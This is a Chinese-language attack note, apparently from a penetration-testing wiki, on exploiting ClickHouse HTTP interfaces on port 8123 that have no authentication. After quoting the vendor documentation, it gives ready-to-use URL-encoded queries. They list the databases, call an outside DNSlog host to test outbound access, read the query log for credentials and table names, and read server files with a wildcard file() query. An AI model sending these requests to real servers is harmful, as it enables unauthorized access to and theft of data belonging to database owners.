



# ClickHouse 8123端口

## 关于

<a-checkbox checked>默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它会返回一个字符串 «Ok.»（结尾有换行）。可以将它用在健康检查脚本中。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它返回响应码200和OK字符串定义，可在[Http服务响应配置](https://clickhouse.tech/docs/zh/operations/server-configuration-parameters/settings/#server_configuration_parameters-http_server_default_response)定义(在末尾添加换行)</a-checkbox></br>


这里可以看到 ClickHouse 存在着的接口由于没有鉴权，则任意访问者都可以执行SQL语句获取数据


## 攻击方法

首先确定是否使用了 ClickHouse 数据库的接口



根据文档得知，正常返回为 Ok. , 且存在 X-ClickHouse-Summary 作为返回包的 Header


测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```php
/?query=SHOW%20DATABASES
```


成功执行语句获取数据，执行其他命令探测出网

```php
/?query=SELECT%20*%20FROM%20url('http://jahl09.dnslog.cn','txt','column1%20UInt32')%20LIMIT%202
```




其中也可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息

(获取敏感用户信息，数据库名以及数据表名)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log
```


由于默认配置中的可读路径默认 (`配置文件位置：/etc/clickhouse-server/config.xml`)

因此只能读取下面路径中的文件，当目标中曾在该路径导入文件且没有删除的情况下，可通过测试获取敏感文件信息，获取数据文件


<a-checkbox checked>/var/lib/clickhouse/user_files/</a-checkbox></br>



其中读取时可以利用通配符跳过不知道文件名的情况获取文件信息


```php
/?query=SELECT%20*%20FROM%20file('*'%2C%20'CSV'%2C%20'column1%20String%2C%20column2%20String%2C%20column3%20String')%20LIMIT%203%3B"
```

